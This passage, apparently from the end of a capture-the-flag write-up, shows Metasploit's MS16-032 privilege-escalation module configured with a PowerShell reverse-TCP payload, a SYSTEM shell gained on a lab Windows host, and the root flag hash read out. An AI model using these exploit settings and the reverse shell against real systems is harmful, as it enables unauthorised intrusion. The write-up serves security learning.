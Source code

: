Then, I'll set the `target` to `Windows x64`, the `payload` to
`payload/windows/x64/powershell_reverse_tcp`, the `RHOSTS` to `10.10.10.8`, the
`LHOST` to `10.10.14.9`, the `LPORT` to `9002` and the `SESSION` to `1`.

### Exploitation

No we can launch the exploit!

```sh
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run
```

```
<SNIP>
PS C:\Users\kostas\Desktop>
```

It went off without a hitch.

However, I don't like Metasploit's shell, so I'll open my own on port `9003`.

## System enumeration

If we run `whoami`, we see that we're `NT AUTHORITY\SYSTEM`!

### Flags

As usual, we can find the root flag in our home folder.

```ps1
PS C:\Windows\system32> Get-Content "C:\Users\Administrator\Desktop\root.txt"
```

```
ac6fb04739d6d73a57df32c17d1f920f
```

# Afterwords
